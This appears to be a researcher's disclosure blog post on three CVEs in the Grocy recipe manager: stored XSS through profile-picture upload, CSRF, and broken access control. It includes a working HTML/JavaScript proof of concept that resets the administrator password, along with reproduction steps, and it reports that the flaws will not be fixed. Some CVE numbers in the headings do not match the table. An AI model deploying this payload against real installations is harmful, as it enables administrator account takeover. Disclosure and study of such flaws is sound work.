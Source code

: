 ```yaml
---
title: All Your Recipe Are Belong to Us (Part 1/3) - Stored XSS, CSRF and Broken Access Control Vulnerabilities in Grocy
date: 2024-11-27T04:00:56+01:00
toc: false
images: 
tags:
  - CVE
  - Web
  - English
---
```


I used 4 hours of my free time (not counting the Responsible Disclosure and Blog Posts...) to "speed pentest" the three biggest and most popular (measured by Github stars) open-source recipe managers. 

This included [Grocy](https://github.com/grocy/grocy), which had >6900 stars at the time of testing. Here I found 3 vulnerabilities. The first one is an _Unrestricted File Upload_, through which it was possible to upload any files. This included HTML and SVG files to achieve _Stored XSS_. The second one is a _CSRF_ vulnerability, because the session token has no security flags set, as well as no CSRF countermeasure is implemented. The last one is "one" _Broken Access Control_ vulnerability: For most functions, only the link in the sidebar is disabled for unauthorized users, but a direct call to the URL or API endpoint allows access to data for which you have no permissions.

## Overview of the Vulnerabilities
| CVE | Name                                                                               | CVSS Score      |
| ----- | ---------------------------------------------------------------------------------- | ------ |
| [CVE-2024-55074](https://www.cve.org/CVERecord?id=CVE-2024-55074) | Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS | [8.7 High](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N) |
| [CVE-2024-55075](https://www.cve.org/CVERecord?id=CVE-2024-55075) | CSRF: Change the administrator's password                                          | [6.8 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N) |
| [CVE-2024-55076](https://www.cve.org/CVERecord?id=CVE-2024-55076) | BAC: Users can directly call functions, which they are not authorized for          | [6.5 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) |

## Remediation

The maintainer stated that they do not care about the vulnerabilities because Grocy is a hobby project and not intended for the use in a sensitive enterprise area. This means that the vulnerabilities probably won't get fixed.

## Vulnerabilities in Detail

### [CVE-2024-55074] Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS (8.7 High)
Users have by default the permission to edit their own profile. There they can upload a profile picture. However it is not validated whether the uploaded file is a benign picture or not. Thus, it is possible to upload malicious HTML or SVG files. As a POC I've created the following HTML file:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Update User</title>
</head>
<body>
    <h1 id="status">Loading...</h1>
    <script>
        // Function to perform the PUT request
        async function updateUser() {
            const url = '/api/users/1'; // Target endpoint
            const payload = {
                username: "admin",
                first_name: "",
                last_name: "",
                change_password: "1",
                password: "NewPassword123",
                password_confirm: "NewPassword123"
            };

            try {
                const response = await fetch(url, {
                    method: 'PUT',
                    credentials: 'include', // Include cookies in the request
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify(payload) // Convert payload to JSON string
                });

                if (response.ok) {
                    document.getElementById('status').textContent = 'User updated successfully!';
                } else {
                    const errorText = await response.text();
                    document.getElementById('status').textContent = 'Failed to update user: ' + errorText;
                }
            } catch (error) {
                document.getElementById('status').textContent = 'Error: ' + error.message;
            }
        }

        // Execute the request when the page loads
        (async function execute() {
            await updateUser();
        })();
    </script>
</body>
</html>
```
When the file is viewed by an administrator, the JavaScript will issue a request that changes the password of the user with id 1 (by default an administrator) to `NewPassword123`.
The following screenshot shows the upload function:

![Grocy1](/media/2024/11/grocy1.png)

After saving the changes, we can see the URL of the uploaded file

![Grocy2](/media/2024/11/grocy2.png)

We need to remove the appended `?force_serve_as=picture&best_fit_width=32&best_fit_height=32` in order for the file to be executed

![Grocy3](/media/2024/11/grocy3.png)

As we do not have administrative rights (YET ;)) we receive an error message. However, if an administrator visits the url, the request is successful

![Grocy4](/media/2024/11/grocy4.png)

Now we can login as the administrator `admin` with the newly set password `NewPassword123`

![Grocy5](/media/2024/11/grocy5.png)

### [CVE-2024-45875] CSRF: Change the administrator's password (6.8 Medium)
The session cookie has no security flags (escpecially SameSite) set

![Grocy6](/media/2024/11/grocy6.png)

Further no CSRF countermeasures (such as CSRF-Tokens) are implemented at all, leaving all functions vulnerable to CSRF. E.g. see the following request to change the administrator's password

![Grocy7](/media/2024/11/grocy7.png)

The same POC as the previous vulnerability can be used, but instead of the relative URL a absolute URL needs to be specified. If an adminstrative user visits this POC on the attacker's website, the password of the default administrative user will be changed.

### [CVE-2024-55074] Broken Access Control: Users can directly call functions, which they are not authorized for (6.5 Medium)

As a starting point, we create a user `user` with no permissions

![Grocy8](/media/2024/11/grocy8.png)

The user is not authorized to access most of the functions of the webapp. The links to those functions are deactivated on the sidebar. However the user is still able to access those functions by requesting their URL directly. e.g. we can request /calendar in order to view the calendar and its entries.

![Grocy9](/media/2024/11/grocy9.png)

A further example are the recipes

![Grocy10](/media/2024/11/grocy10.png)

This affetcs ALL functions except the user management.

However, it is only possible to view data and not to modify it.

## Timeline
| Date | Event |
| - | - |
| 2024-11-26 | Discovered the vulnerabilities |
| 2024-11-26 | Reported the vulnerabilites |
| 2024-11-26 | Maintainer replied that they do *NOT* want to be bothered with "irrelevant" security issues and that I may publish my blog post |
| 2024-11-27 | CVEs requested |
| 2025-01-06 | CVEs were assigned |
